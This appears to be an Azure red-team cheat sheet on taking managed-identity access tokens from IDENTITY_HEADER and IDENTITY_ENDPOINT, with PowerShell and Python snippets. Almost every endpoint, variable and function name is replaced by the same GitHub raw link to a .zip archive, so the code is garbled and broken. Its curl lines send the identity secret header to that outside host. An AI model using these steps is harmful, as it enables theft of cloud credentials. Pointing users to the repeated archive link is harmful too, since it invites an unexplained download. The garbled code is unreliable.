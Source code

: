
### Azure API via Powershell

Get **access_token** from **IDENTITY_HEADER** and **IDENTITY_ENDPOINT**: `system('curl "$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip" -H secret:$IDENTITY_HEADER');`. 

Then query the Azure REST API to get the **subscription ID** and more .

```powershell
$Token = 'eyJ0eX..'
$URI = 'https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip'
# $URI = 'https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value 

# List resources and check for runCommand privileges
$URI = 'https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip'
$URI = 'https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip<RG-NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip<https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip'
```

### Azure API via Python Version

```py
IDENTITY_ENDPOINT = https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip['IDENTITY_ENDPOINT']
IDENTITY_HEADER = https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip(cmd).read()
print("Access Token: "+https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip(val)["access_token"])
print("ClientID/AccountID: "+https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip(cmd).read()
print(https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip(val)["access_token"])
print("ClientID/AccountID: "+https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip(val)["client_id"])
```
